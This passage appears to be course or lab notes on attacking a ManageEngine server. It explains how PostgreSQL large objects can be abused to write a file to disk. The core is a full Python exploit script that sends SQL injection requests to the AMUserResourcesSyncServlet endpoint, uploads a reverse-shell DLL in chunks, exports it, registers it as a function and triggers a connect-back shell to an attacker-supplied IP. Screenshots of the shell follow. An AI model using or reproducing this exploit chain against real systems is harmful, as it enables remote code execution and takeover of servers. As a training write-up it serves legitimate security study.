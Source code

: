 ## Local Network Limitation
Even though we did manage to get a shell on the ManageEngine server, we managed to get it by utilizing a share on the local network.
An alternative to the remote Samba extension loading is to find a method to transfer the malicious DLL to the remote server directly through an SQL query.

## PostgreSQL Large Objects
 PostgreSQL exposes a structure called _large object_, which is used for storing data that would be difficult to handle in its entirety.
 The advantage of large objects lies in the fact that the data they hold can be exported back to the file system as an identical copy of the original imported file.

A large object is created by calling the _lo_import_ function while providing it the path to the file we want to import:

![](../../03.%20Screenshots/t2-ss21.png)

We import the win.ini file to the database and when we list it, we get a loid, of the large object.
This is an integral value to reference while exporting a large object.
It may look arbitrary, however we can control the loid by passing it as a parameter of the lo_import function:

![](../../03.%20Screenshots/t2-ss22.png)

Now, to export the file on to the remote file system, we need the know where large objects are stored in the database.
The large objects are stored in the pg_largeobject table.
Apart from the loid, in the pg_largeobject table, we also need to notice a critical piece of information i.e. the pageno field which defines the page number.
When large objects are imported into a PostgreSQL database, they are split into 2KB chunks, which are then stored individually in the _pg_largeobject_ table.

Moving on, if we choose to see what data is inside our large object entry right after import, we can see it using the data parameter:

![](../../03.%20Screenshots/t2-ss23.png)

We can update this entry, for instance, using the hex value of a string and providing it's loid and pageno value:

![](../../03.%20Screenshots/t2-ss24.png)

Finally, we can export these values to the file system using the lo_import function of PostgreSQL.

![](../../03.%20Screenshots/t2-ss25.png)

## Getting Reverse Shell
We are gonna take the following course of action to get a reverse shell using the large object feature of PostgreSQL:
1. Create a malicious DLL file containing shellcode.
2. Inject a query that creates a large object from an arbitrary remote file(like win.ini).
3. Inject a query that updates page 0 of the newly created large object with the first 2kb of our malicious DLL.
4. Inject more similar queries that insert additional pages of the pg_largeobject table to contain the rest of the malicious DLL file.
5. Inject a query that exports the DLL file to remote file system from the database.
6. Inject a query that creates a custom function in the PostgreSQL database, using the DLL.
7. Inject a query that executes the newly created UDF.

We will use the following python script to do all of that:

```python
import requests, sys, urllib, string, random, time
requests.packages.urllib3.disable_warnings()

# encoded UDF rev_shell dll
udf = 'hex encoded dll file'
loid = 1337

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def delete_lo(url, loid):
   log("[+] Deleting existing LO...")
   sql = "SELECT lo_unlink(%d)" % loid
   make_request(url, sql)

def create_lo(url, loid):
   log("[+] Creating LO for UDF injection...")
   sql = "SELECT lo_import($$C:\\windows\\win.ini$$,%d)" % loid
   make_request(url, sql)
   
def inject_udf(url, loid):
   log("[+] Injecting payload of length %d into LO..." % len(udf))
   for i in range(0,((len(udf)-1)/4096)+1):
         udf_chunk = udf[i*4096:(i+1)*4096]
         if i == 0:
             sql = "UPDATE PG_LARGEOBJECT SET data=decode($$%s$$, $$hex$$) where loid=%d and pageno=%d" % (udf_chunk, loid, i)
         else:
             sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode($$%s$$, $$hex$$))" % (loid, i, udf_chunk)
         make_request(url, sql)

def export_udf(url, loid):
   log("[+] Exporting UDF library to filesystem...")
   sql = "SELECT lo_export(%d, $$C:\\Users\\Public\\rev_shell.dll$$)" % loid
   make_request(url, sql)
   
def create_udf_func(url):
   log("[+] Creating function...")
   sql = "create or replace function rev_shell(text, integer) returns VOID as $$C:\\Users\\Public\\rev_shell.dll$$, $$connect_back$$ language C strict"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   delete_lo(sqli_url, loid)   
   create_lo(sqli_url, loid)
   inject_udf(sqli_url, loid)
   export_udf(sqli_url, loid)
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```

Executing the script:

![](../../03.%20Screenshots/t2-ss26.png)

We get the shell:
![](../../03.%20Screenshots/t2-ss27.png)